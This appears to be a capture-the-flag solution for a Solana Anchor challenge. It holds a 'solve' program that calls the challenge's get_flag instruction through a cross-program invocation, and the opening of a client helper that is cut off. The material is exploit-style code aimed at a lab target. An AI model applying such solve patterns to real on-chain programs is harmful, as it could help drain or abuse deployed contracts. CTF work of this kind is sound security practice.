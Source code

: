 ```rust
use anchor_lang::prelude::*;

use anchor_spl::token::Token;

declare_id!("osecio1111111111111111111111111111111111111");

#[program]
pub mod solve {
    use super::*;

    pub fn get_flag(ctx: Context<GetFlag>) -> Result<()> {
        
        
        let get_flag_acc = chall::cpi::accounts::GetFlag {
            flag:ctx.accounts.state.to_account_info(),
            password: ctx.accounts.password.to_account_info(),
            payer: ctx.accounts.payer.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };

        let cpi_deposit = CpiContext::new(ctx.accounts.chall.to_account_info(), get_flag_acc);
        chall::cpi::get_flag(cpi_deposit)?;
        Ok(())
    }
}

#[derive(Accounts)]
pub struct GetFlag<'info> {
    #[account(mut)]
    pub state: AccountInfo<'info>,
    pub password: AccountInfo<'info>,
    #[account(mut)]
    pub payer: Signer<'info>,
    pub system_program: Program<'info, System>,
    pub token_program: Program<'info, Token>,
    pub rent: Sysvar<'info, Rent>,
    pub chall: Program<'info, chall::program::Chall>
}
```

`framework-solve/src/main.rs`:

```rust
use chall::anchor_lang::{InstructionData, ToAccountMetas};
use chall::FLAG_SEED;
use solana_program::pubkey;
use solana_program::pubkey::Pubkey;
use std::net::TcpStream;
use std::{error::Error, fs, io::prelude::*, io::BufReader, str::FromStr};

fn get_line<R: Read>(reader: &mut BufReader<R>) -> Result<String, Box<dyn Error>> {
    let mut line = String::new();
    reader.read_line(&mut line)?;

    let ret = line
        .split(':')
        .nth(1)
        .ok_or("invalid input")?
        .trim()
        .to_string();

    Ok(ret)
}
```
